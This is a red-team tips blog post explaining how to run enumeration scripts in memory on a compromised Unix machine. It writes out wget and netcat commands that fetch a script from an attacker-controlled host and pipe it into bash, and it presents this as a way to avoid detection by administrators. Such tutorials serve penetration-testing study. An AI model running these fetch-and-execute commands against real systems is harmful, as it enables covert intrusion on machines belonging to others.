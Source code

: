```yaml
---
description: >-
  How to execute a downloaded script on a remote machine in memory
title: Execute remote scripts from memory                    # Add title of the machine here
date: 2021-04-29 08:00:00 -0600                           # Change the date to match completion date
categories: [Tips & Tricks]                     # Categories
tags: [hacking, redteam, tips-n-tricks, script, enumeration, linux, macos]     # TAG names should always be lowercase; add relevant tags
show_image_post: true                                    # Change this to true
#image: /assets/img/                # Add image here for post preview image
---
```


## Execute script in memory

Scenario: You have just gotten a shiny new reverse shell on a Unix-based machine and you want to do some quick enumeration.  You do not want to leave any files on the target system for the system administrators to notice, so you decide to run your enumeration scripts in memory.  How do you do this, you ask?

Popular enumeration scripts:

TODO: add links to LinPEAS,LinEnum, etc.  Or create your own!

## /dev/shm

It is recommended to use the directory `/dev/shm` to avoid writing files to the disk.  This is a virtual directory that only exists in memory.  Any files left behind here will be wiped when the system shuts down or restarts.

```
cd /dev/shm
```

In addition to using the virtual directory `/dev/shm` to write files to, you can also execute scripts in memory directly by using the methods below.

## Using Wget

Using the web-get program `wget` to download a script from an attacker-controlled web server is an excellent way to get remote script execution in memory.  If you do not have a web server to hosts your scripts, you can create one on the fly by using Python3's `http.server` module.

1. First, host the file using a Python HTTP server from your attacking platform of choice (Kali, Parrot, etc) so it is accessible remotely.

```
python3 -m http.server $port
```

You can specify a port by replacing the variable `$port` above.  Note: if you wish to use one of the "well-known" ports such as 80 or 443, you must run the command with `sudo`.  If you leave off the `$port`, it will default to port 8000.

2. Next, you can use the command `wget` to fetch your script from your HTTP server.  By piping this command into `bash` you can execute the script directly from memory.

```
wget -O - http://$attackerIP:$port/$script | bash
```

| Parameter | Description |
| :--- | :--- |
| `-O -` | This parameter tells `wget` to send the contents it downloads to `stdout`. |
| `$attackerIP` | This is your attacking machine's IP (must be reachable from the victim's machine). |
| `$port` | The port you specified on your HTTP server |
| `$script` | This will be the name of the script to fetch from your machine. |

## Using Netcat

This same scenario can also be accomplished by using the popular network transfer tool netcat (`nc`) in the same way you would create a reverse shell. 

1. From your attack platform, start a netcat listener by piping in the contents of your script using `cat`.

```
cat $script | nc -nvlp $port
```

With netcat you must specify a port to listen on.  

2. Next, use netcat on the victim machine to reach back to your attack platform.  When it connects, your computer will send the contents of the script to the victim.  You can execute this in memory by piping this output to `bash`.

```
nc $attackerIP $port | bash
```

## Other Examples

If you have any other examples of methods of executing remote scripts directly in memory, or have any other fun or useful tips or tricks, feel free to contact me on Github at https://github.com/zweilosec or on social media!

If you like this content and would like to see more, please consider buying me a coffee! <a href="https://www.buymeacoffee.com/zweilosec"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a coffee&emoji=&slug=zweilosec&button_colour=FFDD00&font_colour=000000&font_family=Lato&outline_colour=000000&coffee_colour=ffffff"></a>

